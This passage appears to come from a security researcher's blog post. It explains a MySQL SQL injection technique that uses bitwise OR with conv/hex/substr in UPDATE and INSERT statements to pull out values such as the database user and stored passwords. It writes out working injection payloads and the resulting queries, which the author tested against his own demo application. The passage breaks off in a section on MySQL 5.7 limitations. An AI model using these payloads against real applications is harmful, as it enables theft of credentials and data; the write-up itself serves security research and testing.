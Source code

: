     
    <code>name=test' | conv(hex(substr(user(),1 + (1-1) * 8, 8 * 1)),16, 10) where id=16;%00&id=16
    </code>


The actual query will look something like this.

    
    <code>update users set username = 'test' | conv(hex(substr(user(),1 + (1-1) * 8, 8 * 1)),16, 10) where id=16;%00' where id = '16';
    </code>


This is from a demo application which I developed to test this injection.
![](https://osandamalith.files.wordpress.com/2017/02/webpage.png?w=600)


## Insert Statement


Let’s imagine a query like this.

    
    <code>insert into users values (17,'james', 'bond');
    </code>


Same like the update statement you can apply this method into the insert statement as well.

    
    <code>insert into users values (17,'james', 'bond'|conv(hex(substr(user(),1 + (n-1) * 8, 8 * n)),16, 10);
    </code>


However in this example you can fix the query and inject, but like in the previous case if the insert statement has only one column in the scenario, this method is useful.


## Extracting Data


In MySQL you cannot use the same table name in a sub query in an update or insert statement. To over come this here’s a tricky way I came up with.

    
    <code>update users set username = 'osanda'| conv(hex(substr((select password from (select * from users) as x limit 0,1 ) ,1 + (1-1) * 8, 8 * 1)),16, 10) where id='16';
    </code>




## Limitations in MySQL 5.7


You may notice that my method will not work in versions after MySQL 5.7.5.

    
    <code>mysql> update users set username = 'osanda' | conv(hex(substr(user(),1 + (1-1) * 8, 8 * 1)),16, 10) where id=14;
    